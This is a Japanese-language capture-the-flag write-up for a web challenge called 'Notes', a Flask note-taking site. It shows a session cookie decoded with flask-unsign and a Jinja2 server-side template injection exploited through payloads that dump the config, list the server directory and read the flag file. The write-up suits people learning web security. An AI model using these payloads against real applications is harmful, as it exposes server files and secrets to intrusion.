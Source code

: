 # Notes:Web:881pts
[http://challenges2.hexionteam.com:2001](http://challenges2.hexionteam.com:2001)  

# Solution
URLにアクセスすると次のようなページが開く。  
[site.png](site/site.png)  
どうやら買い物のメモを保存しておくサイトのようで、ソース(Notes.html)を見てやると/notesが存在するらしい。  
Cookieを見てやると、以下のセッションが保存されていた。  
形式からFlask(Jinja2)であることがわかる。  
```text
eyJub3RlcyI6WyJTYXRva2kgPCBIYWhhaGEhIl19.XpSLdw.WPQ1IOdmeqLcVz8SeuI3NzWkfi0
```
デコードしてやるが何もない。  
```bash
$ flask-unsign --decode --cookie 'eyJub3RlcyI6WyJTYXRva2kgPCBIYWhhaGEhIl19.XpSLdw.WPQ1IOdmeqLcVz8SeuI3NzWkfi0'
{'notes': ['Satoki < Hahaha!']}
```
入力欄に`{{`を入力してやると/notesで500エラーが発生する。  
`{{10+10}}`を入力してやると/notesでは20になっているので、Jinja2の式が評価されて出力されている。  
サーバーサイドテンプレートインジェクションをにらんで`{{config}}`を入力すると/notesは以下になる。  
[{{config}}を入力した/notes](notes_{{config}}.html)  
ここからSECRET_KEYを奪い、セッションを偽装するのかとも考えたが、違うようだ(adminにしても意味はなかった)。  
サーバーのファイルを読み取りにいく。  
`{{url_for.__globals__.__getitem__('os').listdir('./')}}`を入力すると/notesは以下になる。  
```text
["['.bash_logout', '.bashrc', '.profile', '__pycache__', 'server.py', 'templates', 'flag']"]
```
flagなるファイルがあるようだ。  
`{{url_for.__globals__.__getitem__('__builtins__').__getitem__('open')('flag').read()}}`を入力し表示する。  
```text
["hexCTF{d0nt_r3nder_t3mplates_w1th_u5er_1nput} "]
```

## hexCTF{d0nt_r3nder_t3mplates_w1th_u5er_1nput}